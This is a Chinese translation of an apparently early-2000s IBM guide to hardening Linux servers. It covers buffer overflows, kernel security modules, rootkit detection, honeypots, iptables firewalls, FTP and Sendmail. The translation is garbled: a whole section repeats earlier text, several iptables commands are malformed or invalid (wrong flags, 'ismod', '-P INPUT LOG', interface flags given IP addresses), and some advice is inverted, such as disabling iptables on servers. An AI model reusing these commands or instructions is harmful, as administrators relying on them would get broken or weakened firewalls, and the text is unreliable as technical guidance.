最后但绝不重要的通用服务器安全实践之一是应用安全。几乎任何 Linux 服务器清单都会包含一系列针对网络、操作系统、文件系统、用户/组账户，甚至是物理安全问题（如位置和控制台连接性）的安全措施。然而，很少有人花费精力来加固 Linux 上的应用程序。为什么？简短的回答是，分析行为比识别 UDP 服务器端口相比的识别几个安全问题要困难，特别是当它们涉及“顶级通用漏洞（Web/应用安全服务器）”中的第四项“存在漏洞的 CGI 程序”以及“顶级 漏洞”中的第八项“RPC 服务中的缓冲区溢出”时。然而，本文档将涵盖 Linux 上所有的——或大部分的应用安全问题。分析、理解、设计和管理应用安全对于 Linux 服务器基础设施是至关重要的，如果你的客户没有可用技能，建议利用专家处理应用安全和隐私。根据我的经验，如果你必须画一个分配安全时间和资源的饼图，请至少将饼的一半留给应用安全。

- Global Services 提供广泛的服务，包括安全和隐私评估、规划、架构、设计、实施和管理。见见：http://www.ibm.com/services/
- 想要一个非常好的教程，请参阅 LinuxFocus 上的《开发应用程序时避免安全2001》（Avoiding security2001 when developing an application）：http://www.linuxfocus.org/English/January2001article182.shtml。另一个更通用的 Unix 编程安全 FAQ 可以在某处找到。
© IBM. Corp. 2001 保留所有权利。

## RPC 服务中的缓冲区溢出

当攻击者用数据溢缓冲区并“感染”进程时就会发生缓冲区溢出。进程栈持有执行下一条指令的地址。要利用缓冲区，必须将栈上的返回地址替换为 shell 代码。当函数返回时，进程栈获取了插入系统中的 shell 代码，攻击者现在有了一个 shell。

RPC 中的缓冲区溢出，如 SANS 列表所述：

“远程过程调用 (RPCs) 允许某台计算机上的程序执行另一台计算机上的程序。它们被广泛用于访问 NFS 和 NIS 网络服务。RPC 引起的多个漏洞正在被积极利用。在 Solar 事件期间对系统进行的广泛成功攻击也是由系统执行的。”

这些通常是 RPC 服务，例如 rpc.tdserver（ToolTalk）、rpc.cmsd（日历管理器）、rpc.statd（stat）。保护这些服务不受利用的良好方法是阻止 RPC 端口（111端口）以及“环回”端口 32770-32789（TCP 和 UDP）。

显然，set-UID root 程序中的任何缓冲区溢出都是毁灭性的。再次，对于上述 set-UID root 程序，考虑对需要 set-UID root 的程序使用 chatter+。此外，可以针对 StackGuard (http://www.immunix.org) 等产品进行编译。StackGuard 通过保护栈上的返回地址来检测并击败缓冲区溢出攻击。StackGuard 在函数返回时在返回地址旁边放置“哨兵”字，如果地址被更改，则检测到攻击，程序通过在 syslog 中发出警告进行报告并停止。替代方案是使用 Libsafe (http://www.avalayabs.com/project/libsafe/index.html)，它不需要与任何程序编译，只需作为动态库安装并定义环境变量 (LD_PRELOAD) 或在 /etc/ld.preload 中指定。Libsafe 也遵循 GPL 协议。

> 10 每当调用函数时，参数会被复制到称为“栈”的内存区域。几乎所有的 CPU 架构都使用栈的概念，并有一个特殊的寄存器（栈指针）以及从栈中弹出内容的操作。还有一个运算符获取栈的地址并将其复制到程序计数器（确定执行下一条指令地址的寄存器）。函数将返回地址调用到栈上。
11 关于缓冲区溢出的详细演示，请参阅：http://www.enderunix.org/documents/gid/buffer-overflow.txt


## 内核级安全

如果您或您的客户在安全需求谱的高端有相关需求，他们可能希望考虑在内核层面对 Linux 进行安全防护。本文讨论的大多数解决方案是在用户空间层面解决 Linux 安全问题，但已知的 Linux 模块利用漏洞（exploits）为其提供了巨大的破坏机会，同时也也可以创建一个深层隔绝的保护层。针对此类低级攻击的防御方法是修补内核本身，或实现专为安全设计的 Linux 模块。

## 开源内核安全

### LIDS (http://lids.org)
IDS（入侵检测系统）是一种内核补丁和管理工具，用于增强 Linux 安全性。LIDS 实现了访问控制列表（ACL），这可以帮助防止即使是具有超级用户访问权限的人也不会对系统造成破坏。ACL 允许 LIDS 保护文件以及进程。

- 文件保护。包括 root 在内的任何人都无法修改受 LIDS 保护的文件。文件可以被隐藏。
- 进程保护。包括 root 在内的任何人都无法杀死被保护的进程。进程可以被隐藏。
- 使用 ACL 进行细粒度访问控制。
- 使用并扩展控制整个系统的能力。
- 来自内核的安全告警。
- 内核中的端口扫描检测器。

SecurityFocus 在此处提供了关于 LIDS 的优秀教程：http://www.security.com/infocus/1496。LIDS-FAQ 也是学习 LIDS 的有用资源：http://www.clubinux.org/lids/

### SELinux (http://www.nsa.gov/selinux & http://opensource.nailabs.com/selinux/)
美国国家安全局（NSA）的安全增强型 Linux（SELinux）为 Linux 实现了强大、有效且细粒度的强制性访问控制。这些控制措施可用于将进程（包括超级用户）限制为最小权限，保护进程和数据的完整性和机密性，并支持受保护系统。SELinux 在 GPL 协议下提供。

NSA 选择 SELinux 作为其开放环境中这项工作的平台。需要注意的是，SELinux（以及 LIDS）并没有纠正 Linux 的任何缺陷，而是作为了如何在 Linux 中添加强制性访问控制（包括超级用户访问）的范例。使用 SELinux，可以配置出一个满足许多安全目标（如基于角色的访问）的系统。

新 SELinux 原型的最新发布版本使用了来自 Immunix (http://lsm.immunux.org) 的 Linux 安全模块 (LSM) 内核补丁。SELinux 原型可以在 NSA SELinux 网站获取。LSM 内核补丁在 Linux 内核中提供了通的安全钩子，由多个不同的安全项目共同开发。

# IBM

## 商业安全操作系统产品

### Argus Systems PitBull (http://www.argus-systems.com/product/overview/pitbull/)
PitBull Foundation 是 Argus 的核心入侵防御软件模块。它基于信任的操作系统，将基础安全层下移到操作系统，在那里对文件系统、设备和进程的访问决策。PitBull 的特性包括：通过最小权限机制移除超级用户权限，将管理员权限拆分为许多权限；强制性访问控制；隔离分区；增强的识别和审计。PitBull 通过了 ITSEC 认证。有关 PitBull 基础的详情，请参阅 http://www.argus-systems.com/product/white_paper/pitbull/oss/3.shtml。

### HP Secure OS for Linux (http://www.hp.com/security/linux/)
HP Secure OS for Linux 提供入侵防御、针对攻击的实时保护以及损害控制。以下白皮书讨论了 Secure OS for Linux 技术细节，包括安全内容模型、系统配置锁定、安全事件审计、文件系统完整性以及安全应用程序：http://www.hp.com/products/linux/papers/techbrief/hp-tlx-brief.pdf。

## 替代基于 Linux 的操作系统以及预配置的 Linux 发行版

### Owl (http://www.openwall.com/Owl/)
“Owl”（或 Open GNU/*/Linux）是一种以 Linux 和 GNU 软件为核心的安全增强操作系统，与其他 GNU/*Linux 发行版兼容。它旨在作为一种主动的源码“审计”安全方法，详情请见 http://www.openwall.com/Owl/CONCEPTTS.shtml

### Immunix (http://www.immunux.org/)
Immunix System 7 是一个支持 Immunix 的 RedHat Linux 7 发行版以及应用程序级安全工具包。它包含了针对 gcc 编译器的 Immunix StackGuard 增强以及针对 glibc 库的 Immunix FormatGuard 增强。还包括 Immunix SubDomain 内核模块和用于审计的 OpenWall 内核补丁。Immunix System 7 是一个商业产品。

### EnGuard Linux (http://www.engardlinux.org)
EnGuard Secure Linux 是一款商业产品，提供实现了高级安全技术的 Linux 安全发型版。它包含了针对服务提供者的各种功能，例如：

- 使用基于 Web 的 Tripwire 主机进行主机和网络入侵检测
- 详细的网络统计和系统报告
- 基于 Web 的磁带备份设施

### IBM Gateway
- 内置网络防火墙运行并连接共享和 NAT 支持，保护用户不受外部入侵者的侵害
- 跟踪网络活动，主动监控企业活动
- 安全的 Web 端 FTP 服务器

### Trustix Secure Linux (http://www.trustix.net/)
Trustix Linux 是一个面向服务器市场的 Linux 发行版。Trustix 提供的创新主要是根据其安全记录选择服务，并禁用任何不可信的服务（如 telnet）。默认情况下，Trustix 没有正在运行的服务，依赖系统管理员根据其服务器的顺序激活所需的服务。

### Kaladix (http://www.kaladix.org/)
为安全设计的预配置 Linux 发行版。功能示例包括：

- 预装安全工具，如 map
- DNS: 在 chroot jail 中运行 UID/GID BIND 8.2.4
- MAIL: 在 chroot jail 中运行 UID/GID Postfix 2010228 Patchlevel 02
- FTP: OpenBSD 上的 VSFTTPED
- Snort IDS 和 SPADE 异常检测器在隔离的 chroot jail 中运行 UID/GID snort (spade)
- 几乎没有 SUID root
- 配额支持

仔细考虑实现增强型或替代 Linux 内核是重要的。应该考虑为安全设计的预配置 Linux 发行版，因为它可能满足也可能不满足您的服务器需求，或者具有成本效益（即确定您或您的客户安装相同类型配置的成本）。许多此类预配置的“安全发行版”应被视为预配置知识，而不是不同的技术或产品，因为它们通常构建在 Red Hat、SuSE 等知名发行版之上。这些增强可能有效防御许多类型的 Linux 漏洞和攻击，但选择需要与所带来的限制进行平衡。

## 了解你的敌人

如果您或您的客户在安全需求谱的高端有相关需求，他们可能希望考虑在内核层面对 Linux 进行安全防护。本文讨论的大多数解决方案是在用户空间层面解决 Linux 安全问题，但已知的 Linux 模块利用漏洞（exploits）为其提供了巨大的破坏机会，同时也也可以创建一个深层隔绝的保护层。针对此类低级攻击的防御方法是修补内核本身，或实现专为安全设计的 Linux 模块。

仔细考虑实现增强型或替代 Linux 内核是重要的。应该考虑为安全设计的预配置 Linux 发行版，因为它可能满足也可能不满足您的服务器需求，或者具有成本效益（即确定您或您的客户安装相同类型配置的成本）。许多此类预配置的“安全发行版”应被视为预配置知识，而不是不同的技术或产品，因为它们通常构建在 Red Hat、SuSE 等知名发行版之上。这些增强可能有效防御许多类型的 Linux 漏洞和攻击，但选择需要与所带来的限制进行平衡。

## Rootkits
Rootkit 的主要意图维持对被破坏系统的访问。攻击者通过依靠来实现这种秘密性。大多数 rootkit 都是木马化的。攻击者的首要目标是维持对被破坏系统的访问。最常用的工具是 find, telnet, netstat, killall 和 ps。此外，rootkit 包含其他分析工具，如嗅探器、欺骗工具和用于捕捉密码的键盘记录程序。

恶意加载内核模块 (LKM)
Linux 内核支持称为可加载内核模块的概念。通常，如果有人想在 Linux 内核中添加或修改代码，他们会修改源文件并重新编译。许多管理员无法信任 "netstat" 或 "ls" 的输出。

Linux Rootkit (Lrk) 是利用 Linux 最常见且著名的 rootkit。与其他 rootkit 和木马程序可以在此处找到：http://ftp.ftp.technotronic.com/unix/trojans/ 研究 rootkit 是了解你的，以及你想要定期扫描或检测的文件和程序的极佳方法。例如，Lrk 使用编译时指定的 /dev 目录下默认文件（/dev/pty,/dev/ptyq,/dev/ptydev/ptyp）来识别它将忽略或丢弃的网络连接、文件和进程。良好的入侵检测系统（见附录）将包含不断监控系统上二进制文件和网络接口的服务，并在认为它们已被破坏时发出告警。要了解更多关于 rootkit 的信息，请参考“理解攻击者工具”：http://www.sans.org/infosec/FAQ/toolkit.htm

> “trojaned”程序是通常良应用程序的恶意替代品。该术语源自荷马《伊利亚特》中希腊人“赠送”给他们的敌人特洛人的特洛伊木马。


# IBM

内核既可以通过直接命令（例如通过“insmod”加载和通过“rmmod”移除），也可以通过内核守护进程（kerneld）¹³ 进行操作。使用可加载内核模块（LKM）有多种优势，有关 LKM 的更多信息，请参阅 http://www.linuxdoc.org/HOWTO/Module-HOWTO/。由于 LKM 提供了访问整个系统的权限，它们引入了重大的安全担忧。

内核的安全泄露可以赋予攻击者其他其他类型漏洞所无法比拟的权限。此外，一旦内核被攻破，熟练的破解者可以使自己和其行为变得不可追溯。攻击者还部署了根根工具（roots），例如 Knark、Rkit 和 Adore，这些工具与上述描述的类似，并会自动安装恶意的 LKM，以进一步扩展它们在系统中利用漏洞和隐藏踪的能力。因此，安装必要的防御措施和检测方法以防止您的系统进入这种状态至关重要。以下是一些关于检测和防御恶意 LKM 的建议考虑因素。

- 如果你不需要可加载模块支持，请禁用 LKM 并完全避免潜在风险。虽然直接写入 /dev/kmem 是插入恶意代码的一种可能方法¹⁴，禁用 LKM 将阻止大多数自动化或非技能的内核尝试。可加载模块在内核编译期间通过定义 CONFIG_MODULES 参数 (y/n) 进行配置。
- 具有完整性检查的强入侵检测系统是良好的第一步。
- 考虑页面末尾附录安全相关的补丁建议。
- 恶意 LKM 检测程序例如：
    - Fontainebleau 的 Carbonite 工具 (http://www.foundstone.com/rdlas/prodesc/carbonite.html) 通过内核层面的“ps”和“top”命令提供有关所有运行进程的信息，包括那些被 Knark 和其他 LKM 根工具包隐藏的进程。虽然 Knark 可以从普通命令和日志工具中隐藏进程，但检查原始的 /proc 目录可以让管理员获得所有系统的完整视图。
    - S0Project2000 KSTAT (http://www.s0fpj.org) 内核安全威胁反工具。KSTAT 实用程序通过读取 /dev/kmem 和接口内核内存来寻找入侵者。例如，KSTAT 的“s”选项会读取并打印出所有系统 dev/kmem 的内存地址。如果地址与 System.map 不匹配，则会发出警告消息。
    - Rksan (http://www.hsc.fr/resources/utils/rksan/index.html) 是一个基于内核的 Linux 根工具扫描器，它可以检测 Adore (v0.14, v0.2b 和 v0.24) 和 Knark (v.59)。

¹³ 你可以通过“lsmod” 命令确定内核运行着哪些模块。
http://www.big-net.au/~-silvio/runtime-kernel-kmem-patching.txt

¹⁴ [脚注引用]


- 使用 Gnu 数字签名验证你打算加载或分发的模块的真实性。GnuPG（附录中描述）是加密数据和创建数字签名的有用工具。

有关 LKM 根工具和安全措施的更多信息，请参阅：
http://www.sans.org/infosecFAQ/threats/rootkits.html 和
columns tech talk.shtml
http://www.infosecuritymag.com/articles/april01/

# 蜜罐

“蜜罐”（honeypot）是一个连接到外部 DMZ 的服务器，充当诱饵，诱导潜在的攻击者进入，以便研究他们的活动并监控他们如何破解系统。蜜罐的设计目标是模仿入侵者想要破解的系统，但限制了入侵者访问整个网络的能力——换句话说，它是由你控制的特洛伊木马。如果蜜罐成功，入侵者将完全不知道自己正处于一个虚假系统并正被监控。然而，蜜罐安装在可以严格控制的防火墙内部。通过限制从互联网进入服务器的内容，防火墙允许所有来自互联网的流量以诱导他们进入一个他们无法造成伤害的环境，从而使 B) 你可以监控他们的活动、工具和入侵行为，以学习他们试图利用什么漏洞，并根据这些知识改进自己的防御。蜜罐只是安全基础设施的工具之一，它们不应被视为单一的保护形式，或其它安全措施（如 IDS）的替代方案。此外，由于其设计用于诱导进入服务器，蜜罐对于所有业务和技能组合来说并不实用。在您的生产基础设施中设计和实现蜜罐应该仔细考虑，并由安全专家进行部署和管理。

Honeynet 项目 (http://project.honeynet.org/project.html) 是一个致力于安全研究的安全专家非营利研究小组。他们的目标是学习黑客社区的工具、技术和动机，并分享这些学训。Honeynet 的所有工作都是开源并与安全社区共享。他们研究的主要工具是蜜罐 (http://project.honeynet.org/papers/honeypot/)。关于构建虚拟蜜罐的另一篇文章位于 http://www.securityfocus.com/cgi-bin/infocus.pl?id=1506。我强烈推荐 Honeypot 项目的内容，因为它提供了来自领域顶级安全专家的实战经验。

LaB (http://www.threenorm.com/LaB) 是一个创建蜜罐或“焦油池”（tarpit）的程序。LaB 获取网络上未使用的 IP 地址，并创建响应连接尝试的“虚拟机”。LaB 回答这些问题的方式会导致机器卡住，有时会持续很长时间。LaB 目前被用于捕获许多近期漏洞，例如 CodeRed、Nimda 和 Pentagon。LaB 遵循 GPL 协议，可以作为服务提供商安全基础设施的有效补充，为蠕虫防护提供主动工具。

# Linux 防火墙

Linux 2.4 内核的显著优势之一是通过 iptables（也称为 NetFilter）增加了状态包头部。在 iptables 出现之前，2.2 版本的内核使用 ipchains 应用程序提供防火墙服务。尽管 ipchains 非常有用，但状态包过滤的使得 Linux 2.4 具有企业级防火墙的功能。iptables 和 ipchains 之间的重大差异允许状态包检查——换句话说，基于 iptables 的防火墙可以维护尝试通过系统的的数据包状态。这允许 iptables 对网络消息序列模式做出决策，并在数据包触发 iptables 包过滤器时对序列中的点进行操作。

# 什么是包过滤器？

包过滤器是在数据包通过系统时查看包头（包含源和目的 IP 地址、端口、标志位等数据）并决定如何处理整个数据包的软件。包过滤器可能会拒绝数据包（像从未接收过一样丢弃）、接受数据包（允许通过）或拒绝数据包（类似于拒绝，但通知源包已被拒绝）。在 Linux 中，包过滤作为内核模块构建在内核中。

以下是数据包遍历 iptables 过滤器“生命周期”的高级图：

- 入站包



第一步是内核（通过 iptables）根据入站包的目的做出“路由决策”。如果包是给此服务器的，内核将包传递给 INPUT 链。如果包通过了 INPUT 链，将由任何监听这些数据的本地进程（应用程序、服务器等）处理。

如果内核启用了 IP 转发且数据包的目的地址指向不同的网络接口，则数据包将传递给 FORWARD 链。如果通过了 FORWARD 链（通过该链中的 ACCEPT 规则），则将其发送出去。如果内核


# IBM

未启用转发功能；该数据包在服务器服务器上没有目的地址，因此被丢弃。

如果“本地处理”程序可以发送网络数据包（通常情况下如此），这些数据包将通过 `OUTPUT` 链发送。如果数据包被 `OUTPUT` 链接受（ACCEPTED），则将其发送到指定的外部接口。

以下是 iptables 的快速上手指南。确定是否安装了 iptables。尝试使用 `modprobe` 加载 iptables，然后通过 `ismod`（列出模块）函数进行 `grep` 查询：

```bash
[root@mordor nazgul~$] modprobe ip_iptables
[root@mordor nazgul~$] ismod | grep ip_iptables
iptables          10496 4 [iptable_nat bytes]
```

最后一行显示 "iptables" 已加载，大小为 "10496" 字节，其“使用计数”为 "4"^1，在引用的模块列表中，在本例中为 "iptable_nat" 和 "iptable_filter"。ismod 显示的信息与来自 `/proc/modules` 提供的信息相同。

要显示 iptables 的命令行选项，只需输入 `iptables -h`。简单来说，iptables 命令从内核的数据包过滤表中插入和删除规则。注意：建议在进行防火墙更改时位于服务器的控制台进行操作，这样在下面的示例中，可能会因为规则配置错误或类型错误而意外拒绝了自己的远程访问。

以下示例显示了一个用于禁用入站 TCP 流量的简单规则：

```bash
/bin/iptables -A INPUT -p tcp -s syn -j DROP
```

这将允许您的 Linux 服务器进行出站 TCP 通信，并丢弃所有入站 TCP 数据包。然而，在典型的提供商场景下，Linux 服务器需要来自其他服务器的入站 TCP 通信——通常位于服务提供商的 DMZ 或来自内部网络。在这种情况下，建议通过 IP 地址以及需要从我们的 Linux 服务器上访问的服务或端口（如 SSH 或 HTTP）来识别其他服务器。

要允许特定规则通过 SSH 访问我们的服务器：

```bash
/bin/iptables -A INPUT -p tcp --s 192.168.1.10/32 --destination-port 22 -j ACCEPT
/bin/iptables -A INPUT -p tcp -s syn -j DROP
```

这仅允许 192.168.1.110 与我们的服务器通信，且仅通过端口 22（通常绑定到端口 22 的安全外壳服务）。您也可以将 `syn` 作为目标端口而不是实际端口号，例如：

^1 所有可下载的模块都有一个“使用计数”，系统用它来确定何时卸载模块是安全的。客户端驱动程序的约定是：打开设备时增加使用计数，在关闭设备时减小计数。

```bash
/bin/iptables -A INPUT -p tcp --syn 192.168.1.110/32 --destination-port ssh -j ACCEPT
/bin/iptables -A INPUT -p tcp --syn 192.168.1.110/32 --destination-port - -j ACCEPT
```

典型的防火墙配置是限制服务器对 HTTP（用于 Web 和应用服务）和 SSH（用于安全管理访问）的访问。以下是设置此项的防火墙示例（192.168.1.101 是服务器的 IP 地址）：

```bash
/bin/iptables -P INPUT DROP
/bin/iptables -A INPUT -s 0/0 -d 192.168.1.101 -p tcp --destination-port - -j ACCEPT
/bin/iptables -A INPUT -s 0/0 -d 192.168.1.101 -p tcp --destination-port ssh -j ACCEPT
/bin/iptables -P INPUT DROP
/bin/iptables -P INPUT LOG
```

Linux 的这种灵活性允许我们对每台服务器进行防火墙处理，使得只有必要的端口/服务可以被网络访问。相同的配置也可以应用于运行在独立服务器上的 Java 应用服务（如 WebSphere），或者该防火墙仅允许访问 WebSphere 需的端口（如 9080、9443 等）。通过将端口和服务限制在特定服务器上需要访问的服务上，服务提供商可以控制通用漏洞 SAN/FS 中编号为一和四的潜在风险（分别是“默认操作系统/应用程序安装”和“大量开放端口”）。此外，还可以采取类似的方法来降低编号为五的漏洞（LPDP（远程协议守护进程））风险，通过对任何 Linux 打印服务器设置防火墙，仅允许受信机器访问端口 515（打印请求中列出的 TCP 端口）。由于打印服务器通常不涉及服务提供商服务器环境，建议对任何并非设计处理远程打印服务的 Linux 服务器禁用 iptables。

另一种常见的 iptables 用法是阻止由于安全原因被攻击的 IP 地址。这种文件可以被修改，以根据 iptables 规则创建被阻止的 IP 地址。以下循环可以根据                   规则 `/etc/firewall/banned` 文件：

```bash
if [ -f /etc/firewall/banned ]; then
  while read BANNED; do
    iptables -A INPUT -i $BANNED -j DROP
    iptables -A INPUT -i $BANNED -j DROP
    iptables -A OUTPUT -o $BANNED -j DROP
    iptables -A OUTPUT -o $BANNED -j DROP
  done
fi
```

## 识别与测试

有多种工具可以验证防火墙配置。Nmap（网络映射）是一个广泛使用的网络探测和安全审计工具——它使用数据包来确定哪些主机可用、哪些服务（端口）正在运行、运行什么操作系统以及许多其他特征。Nmap 有命令行和图形版本。在命令行使用 iptables 效果良好，但这些参数在重启后会丢失。为了确保防火墙配置，（显示 iptables 配置的图像）192.168.1.1 上的有趣端口：
（下方未列出的扫描端口状态为：关闭）

| 端口 | 状态 | 服务 (RPC) |
| :--- | :--- | :--- |
| 22/tcp | open | ssh |
| 23/tcp | open | telnet |
| 80/tcp | open | http |
| 111/tcp | open | sunprpc |
| 139/tcp | open | netbios-ssn |
| 445/tcp | open | smux |
| 993/tcp | open | unknown |
| 1024/tcp | open | icda |

没有与主机的精确操作系统匹配。（如果你知道它上运行什么操作系统，请参：http://www.insecure.org/cgi-bin/nmap-submit.cgi）。
TCP/IP 指纹：
Info(v2.5,BETA30P-1608-linux-gnu;window=12;TTL=19)

Nmap 输出 (nmapfe)

Sendip (http://earth.le/projectpurple/sendip) 是一个实用的命令行工具，用于发送任意数据包（RIP、TCP、UDP、ICMP 或原始 IPv4 和 IPv6）。它允许您测试 iptables 规则，例如发送 ICMP 伪造源。Sendip 同样遵循 GPL。

另一种源防火墙工具是 Firewall Tester (http://packetstorm.deceptions.org/UNIX/firewall/fester-0.tar.gz)。该包包含两个简单的 Perl 脚本：客户端和守护进程。客户端注入自定义数据包，而守护进程监听这些数据包。通过比较脚本的日志文件可以检测被过滤的数据包，如果两个脚本运行在防火墙的两侧，就可以发现过滤规则。用于测试和审计防火墙有效性的其他安全工具将列在下方的附录部分。


# IBM

在尝试配置过滤规则之前，建议彻底了解 Iptables（或者说是 Ipchains）。泛而言之，使用命令行来修改和调优你的防火墙配置是实现这一点的最佳方法之一。然而，值得注意的是，还有几个应用程序和免费提供的工具，它们可以让你更轻方便地配置和管理 iptables 防火墙。对于简单的配置，在红帽（Red Hat）发行版中，你只需在命令行中输入“setup”并选择“Firewall Configuration”，这将允许你配置一些通用参数，如下所示：



其他的 Ipchains/Iptables 防火墙配置和管理工具还包括：

- Firewall Builder (http://www.fwbuilder.org)
  Firewall Builder 由一个面向对象的 GUI 界面一组针对各种防火墙平台的策略编译器组成。
- Shoreline Firewall (http://www.shoreline.net/)
  提供可自定义的配置文件、监控以及针对常见防火墙实现的栅化示例配置。
- Firewall Design Tool (http://www.linux-firewall-tools.com/linux/firewall/index.html)
  一个用于构建防火墙智能应用程序，目前支持 ipchains、ipfwadm 和 ipfw，它可以生成包含你防火墙配置的 shell 脚本。
- MonMath’s Iptables (http://t245.dydns.org/~monmotha/firewall/index.php)
  易于配置的脚本。
- PHP Firewall Generator (http://phpfwgen.sourceforge.net/)

# IBM

PHP Firewall Generator 是一个简单的 PHP 脚本，用于为 iptables 或 iptchains 防火墙生成防火墙脚本。该脚本根据用户输入的配置规则进行创建。

Iptables 是一个复杂的课题，为 iptables 防火墙构建复杂的规则超出了本文的讨论范围。我在“资源（Resources）”部分中包含了参考资料，以便你深入研究 iptables。

# Linux FTP 服务器

FTP 服务器广泛用于服务提供商市场。尽管 HTTP 在远程文件分发方面取得了巨大进展，但 FTP 可能是软件分发的首要方法。FTP 的许多安全风险与 telnet 非常相似（明文密码、潜在的“中间人”攻击等），并且有多种保护 FTP 的解决方案，这些取决于 Linux FTP 服务器的具体使用方式而有所不同。以下是根据客户需要提供的 FTP 服务类型推荐的实践方法。

## 非匿名 FTP

非匿名 FTP 意味着你的 FTP 服务器将由指定的用户列表访问。在这种情况下，有一个简单明了的决策——使用 SSH。自 2000 年初以来，SSH2 已经包含了 sftp (http://www.ssh.com)。SSH2 的官方实现是一个商业许可产品，提供了各种增强功能和支持。SSH 也有一个符合 GPL 要求的版本，其中包含 sftp，可以通过 OpenSSH (http://www.openssh.com) 获取。Sftp 在加密的 SSH 传输层上执行所有操作。它还可以使用 SSH 的许多功能，例如密钥认证和压缩。然而，sftp 要求在 FTP 服务器上有一个用户账户，因此它不适用于需要匿名运行的服务器部署。

## 匿名 FTP

许多服务器需要是“匿名”，因为它们需要向普通公众提供和或上传文件，或者至少向一组无法通过非匿名 FTP 账户指定的用户提供。匿名 FTP 是服务提供商的常见需求。如果你的客户需要运行匿名 FTP 服务器，广泛建议使用 CERT 配置指南 (http://www.cert.org/cert_tips/anonymous_ftp_config.html) 以及下方的通用服务器建议。

## 推荐的 FTP 服务器

vsFTPD，“非常安全的 FTP” (ftp://ferret.linux.org.uk/pub/linux/vsftpd/) 是一个从零开始的 FTP 实现，专为安全设计。vsFTPD 还具有通过防止 FTP 链接被饱和来限制带宽的能力。vsFTPD 被一些著名的服务器使用，例如 ftp.redhat.com。

ProFTPD 是 Linux 上寻找稳健匿名 FTP 服务器功能的客户的另一个替代方案 (http://www.proftpd.org)。ProFTPD 采用 GPL 协议，应使用 1.2.0rc3 或更高版本。ProFTPD 是许多大量的基于 Linux 的匿名 FTP 服务器所使用的 FTP 服务器，例如 ftp-kernel.org（Linux 的权威 FTP 站点）、SourceForge、GNU.org 以及 Frontier（英国一家基于 Linux 的服务提供商，托管了 ftp.linux.co.uk 和 www.linux.co.uk 等站点）。阅读 ProFTPD FAQ (http://www.proftpd.net/docs/faq/proftpdfaq.html) 以确定 ProFTPD 是否符合你的需求。

另一个值得考虑的选择是 SafeTP (http://www.cs.berkeley.edu/~smpecak/SafeTP/doc.html)，它提供透明的 FTP 代理。安装 SafeTP 后，任何 Windows 或 Linux Unix 自动变成安全 FTP 客户端，无需任何进一步干预。SafeTP 拦截出的 FTP 网络连接，并在连接网络之前对流量进行加密。在决定将 SafeTP 作为 FTP 客户端/服务器解决方案之前，应该调查 SafeTP 如何配置以及任何防火墙的细节 (http://www.cs.berkeley.edu/~smpecak/SafeTP/firewall.html)。

## 通用 FTP 服务器建议

- 如果可能，不要使用标准 FTP，而是使用上述的 rsftp，或者如果你只需要提供匿名服务器（无上传权限），考虑使用加固的 HTTP 服务器，例如 publicfile (http://publicfile.org) 或加固为 VSFTPpd 的服务器（如上所述），或 Afpd (http://web.ranum.com/pubs/index.html)。
- 将你的服务器合并到单个 Linux 服务器上，并剥离所有非 FTP 功能、服务和数据。该服务器应该放置在 DMZ（军事化区）中，位于公司网络之外。FTP 服务器最好能限制对 FTP 和管理端口（如 SSH）的访问。使用 TCP Wrappers（参见本文末尾的 Wra）用 SSH 封装 FTP 守护进程也可能有益。
- 创建“捕获账户”，限制用户仅能进行系统的 FTP 访问，并限制用户仅访问你指定的根目录以上的目录。这可以通过在 /etc/ftpasswd 文件中创建一个“guestgroup”条目来实现。
- ftpmap 和 hosts.allow/deny 也可以用于控制 Linux 服务器上 FTP 及其他相关服务的访问，但请记住这种访问控制是基于 OSI 栈的，而防火墙控制可以在第 2 层及以上运行。
- 防御 FTP 弹回攻击。尽管目前大多数 FTP 服务器都防止了此类攻击，但仍然值得验证。有关此漏洞的解释，请阅读 http://www.securityfocus.com/archive/i348。
- 在许多发行版中（如 Red Hat），利用 chroot 来限制访问，并在 guestgroup 选项。
- 绝不要以 root 身份运行 FTP
- 修改 FTP banner 信息。在 FTP 连接时，banner 提供服务器类型和版本。这些信息可被用于策划攻击。大多数 FTP 服务器（wuftpd、proftpd 等）允许此 banner 提供有限的信息。
- 如果服务器位于防火墙后（推荐），使用 Ftp-Ozone (http://www.monkey.com/~dugsong/ozone.c) 进行入侵。


关闭 SMTP Banner 信息。如上面解释的 FTP banner 所示，当“用户” telnet 连接到你的 Sendmail 服务器时，他们会收到一个关于 Sendmail 的信息 banner - 下是一个示例：

这提供了真实用户并不关心的信息，但可能帮助潜在攻击者对你的系统进行特征分析。在 Sendmail 中，更改 `sendmail.cf` 可以修改 SMTP banner 信息。Red Hat 发行版的默认设置为：

```
## SMTP initial login message ($e macro)
OSmtpGreetingMessage=$ Sendmail $v/$b
```

这显示了上述示例会话中的信息。通过更改 `sendmail.cf` 中的此指令，你可以更改在 SMTP banner 中展示的信息，例如：

```
## 修改后的 SMTP 登录消息 ($e macro)
OSmtpGreetingMessage=$ Microsoft Exchange; $b
```

重启 Sendmail 后，当“用户” telnet 连接到你的 Linux 服务器时，他们将收到：

> 显然，这是一个“掩盖”你服务器信息的示例.¹¹⁸

-   关闭 VRFY 和 EXPN。大多数当前的发行版默认使用以下 `PrivacyOptions` 配置（在 `sendmail.cf` 中）。

-   # privacy flags
PrivacyOptions=+authwarnings,noverfy,noexpn,restrict

禁用 VRFY 和 EXPN 命令（以及其他命令）。验证你的 Linux 邮件服务器也执行相同的操作。

-   考虑从 xinetd 运行 Sendmail 以在 25 端口以非 root 身份接受邮件。以下你可以包含在 `/etc/sendmail/` 中的 smtp 文件示例：

¹¹⁸ 人们经常报告这种类型的“服务器伪装”操作系统，认为它很容易被 nmap 绕过，或通过简单的工具识别指纹。然而，如果你对这种特征识别感兴趣，可以使用插件方法让你的 Linux 服务器看起来像另一个操作系统（如 Windows）。参见 Bob Beck 的《Passive-Aggressive Resistance: OS Fingerprint Event》，Linux Journal, #89, Sept. 2001。另请参见 http://www.insecure.org/nmap/nmap-fingerprinting-article.html http://www.phrack.org/php?p=54-a-9

# IBM

```
service smtp
{
    socket_type = stream
    protocol = tcp
    wait = no
    user = mail
    group = mail
    server = /usr/sbin/tcpd/sendmail
    server_args = -bs
    nice = 0
    instances = 20
}
```

此示例以 "mail" 用户/组的身份运行 Sendmail，并通过 tcp (TCP Wrappers) 运行 Sendmail。它还允许控制运行 Sendmail 实例的数量 (20)，并且 "nice" 值指定了运行 Sendmail 的优先级 (5)。

